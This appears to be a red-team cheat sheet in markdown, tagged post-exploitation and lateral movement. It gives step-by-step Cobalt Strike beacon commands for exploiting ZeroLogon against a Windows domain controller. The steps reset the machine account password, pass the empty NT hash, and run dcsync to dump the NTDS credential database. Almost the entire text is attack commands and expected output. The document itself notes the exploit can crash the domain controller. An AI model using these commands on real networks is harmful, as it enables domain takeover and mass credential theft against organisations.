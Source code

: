 ```yaml
---
author(s):
  - Sebastian Dante Alexander
tags:
  - post-exploitation
  - lateral-movement
  - windows
---
```

# C2 Frameworks

## Cobalt Strike

Clone the repository then load the script, the destination is `ZeroLogon-BOF/dist/zerologon.cna`. The console should show a new command `zerologon`.

```
> git clone https://github.com/rsmudge/ZeroLogon-BOF
```

Retrieve Domain name (e.g. `domain.tld`).

```
beacon> net domain
```

Run the exploit bypassing the second argument `iunderstand`. By exploiting this vulnerability we reset the password. This exploit can lead to a failure of the domain controller. WE USE IT LAST.

```
beacon> zerologon iunderstand <domain>.<tld>
```

In case of success we get a response.

```
Success! Use pth .\\\%S 31d6cfe0d16ae931b73c59d7e0c089c0 and run dcsync
```

Do exactly what it says.

```
beacon> pth .\\\%S 31d6cfe0d16ae931b73c59d7e0c089c0
```

And run if everything worked successfully, we get NTDS

```
beacon> dcsync domain.local
```